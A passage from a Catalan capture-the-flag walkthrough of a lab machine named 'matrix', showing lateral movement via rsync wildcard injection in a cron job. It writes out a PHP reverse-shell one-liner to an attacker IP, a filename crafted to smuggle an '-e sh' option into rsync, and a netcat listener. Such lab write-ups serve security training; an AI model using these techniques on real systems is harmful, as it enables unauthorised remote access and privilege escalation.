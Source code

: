```bash
/bin/sh -c cd /var/www/M47r1X.matrix.nyx && rsync -e "ssh -o BatchMode=yes"  -t *.txt matrix:/home/smith/messages/ > /dev/null 2>&1
```

Com que tenim permisos d'escriptura a la carpeta `/var/www/M47r1X.matrix.nyx`, podem intentar un `rsync Wildcard`. Més informació a [exploit-db](https://www.exploit-db.com/papers/33930).

Creem el fitxer `shell.txt` amb `nano` i el fitxer `-e sh shell.txt`.

```bash
www-data@matrix:/var/www/M47r1X.matrix.nyx$ cat shell.txt
php -r '$sock=fsockopen("192.168.1.116",12345);exec("/bin/bash <&3 >&3 2>&3");'

www-data@matrix:/var/www/M47r1X.matrix.nyx$ touch ./'-e sh shell.txt' 
www-data@matrix:/var/www/M47r1X.matrix.nyx$ ls -la
total 40
-rw-r--r-- 1 www-data www-data    0 Jan 29 14:26 '-e sh shell.txt'
drwxr-xr-x 2 www-data www-data 4096 Jan 29 14:26  .
drwxr-xr-x 4 root     root     4096 Jan 28 21:00  ..
-rw-r--r-- 1 root     root      361 Jan 27 02:47  filtrate-backend-matrix.php.txt
-rw-r--r-- 1 root     root     1765 Jan 27 01:04  hoja.css
-rw-r--r-- 1 root     root     4782 Jan 28 23:55  index.php
-rw-r--r-- 1 root     root      806 Jan 27 00:48  matrix.js
-rw-r--r-- 1 www-data www-data   17 Jan 29 13:26  messages.txt
-rw-r--r-- 1 www-data www-data   34 Jan 29 13:27  shell.php
-rw-r--r-- 1 www-data www-data   80 Jan 29 14:25  shell.txt
```

A la nostra màquina atacant ens posem a escoltar amb `netcat`.

```
nc -lvnp 12345
```

I en un minut obtenim una shell amb l'usuari `smith`.

![alt text](../../../assets/images/matrix/image-16.png)
